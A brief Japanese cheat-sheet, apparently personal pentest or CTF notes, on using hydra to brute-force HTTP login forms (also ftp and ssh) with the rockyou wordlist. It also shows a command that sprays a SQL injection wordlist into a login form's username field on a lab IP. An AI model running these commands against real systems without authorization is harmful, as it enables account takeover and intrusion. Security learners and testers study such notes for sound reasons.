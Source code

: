 # hydra
- 力こそパワー!BruteForce!
- ftpとかsshとかにも使える

## usage
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-form-post "/path/to/form:Username=^USER^&Password=^PASS^(request body):Login failed(error message)"`

## その他テクニック
`hydra -L SQL.txt -p pass 10.10.192.4 http-post-form "/index.php:username=^USER^&password=^PASS^&x=30&y=:Incorrect Login" -f`
- [SQL.txt](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/SQL.txt) を使うとSQLiのチェックもできる
- -fでcredentialが見つかったら処理を止める
